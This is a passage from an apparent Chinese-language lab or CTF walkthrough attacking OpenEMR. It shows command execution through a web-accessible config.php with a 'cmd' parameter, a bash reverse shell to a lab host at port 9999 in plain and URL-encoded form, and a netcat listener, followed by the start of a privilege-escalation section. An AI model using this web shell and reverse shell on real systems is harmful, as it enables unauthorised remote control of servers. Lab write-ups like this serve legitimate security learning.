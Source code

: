然后下拉，可以看到`save`按钮，保存即可

这时候构造链接去访问，若直接访问`/sites/default`的话，是无权的，但是加上`config.php`可以访问成功

```shell
http://192.168.10.11/openemr/sites/default/config.php?cmd=id
```

![](./pic/27.jpg)

后面就可以进行编写反弹`shell`了

```shell
bash -i >& /dev/tcp/192.168.10.6/9999 0>&1
#进行url编码
bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.10.6%2f9999+0%3e%261
```

当然执行前记得先在`kali`开启监听端口

```shell
nc -lvvp 9999
```

![](./pic/28.jpg)

# 提权

使用命令查看安装的什么版本的`python`，然后进一步获取`shell`
